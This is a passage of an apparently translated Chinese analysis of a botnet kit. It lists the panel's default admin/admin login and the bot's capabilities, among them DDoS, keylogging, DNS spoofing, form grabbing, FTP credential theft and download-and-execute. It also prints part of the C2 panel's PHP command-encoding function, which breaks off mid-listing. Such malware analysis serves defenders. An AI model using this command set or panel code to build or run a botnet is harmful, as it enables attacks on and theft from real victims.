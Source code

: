 ![enter image description here](http://drops.javaweb.org/uploads/images/9c56acf9578fcf9dd53efe28e07082052a31161e.jpg)

这个软件套装含有完整的使用说明（**readme.txt**），不过使用俄语编写的，其中可以发现许多功能细节。

![enter image description here](http://drops.javaweb.org/uploads/images/1bc0f441a3c46295fd8f4de6a2ed9a29c9899e0c.jpg)

安装面板所需的软件：

*   PHP
*   MySQL，版本号不得低于5.6。

面板的默认登录名和口令：**admin**，**admin**。

被感染的客户端可以根据要求而执行的任务：

*   各种类型的DDoS攻击。
*   键盘记录（启用/禁用）功能，包括指定窗口内的轨迹文本。
*   查找指定类型的文件。
*   更新bot。
*   删除bot。
*   DNS欺骗（将地址X重定向到地址Y）。
*   Form表单截取，窃取FTP证书。
*   下载并执行下列类型的文件（EXE、DLL、、bat 、vbs）。
*   向Windows注册表添加指定内容。

发送给bot的完整命令列表：

functions.php

```
function EncodeCommand($command)
{
    switch (strtolower($command)) {
        case "http ddos":
            return "http";
            break;
        case "https ddos":
            return "https";
            break;
        case "slowloris ddos":
            return "slow";
            break;
        case "smart http ddos":
            return "smart";
            break;
        case "download flood":
            return "dwflood";
            break;
        case "udp ddos":
            return "udp";
            break;
        case "tcp ddos":
            return "tcp";
            break;
        case "find file":
            return "findfile";
            break;
        case "cmd shell":
            return "cmd";
            break;
        case "keylogger":
            return "keylogger";
            break;
        case "spreading":
            return "spread";
            break;
        case "update":
```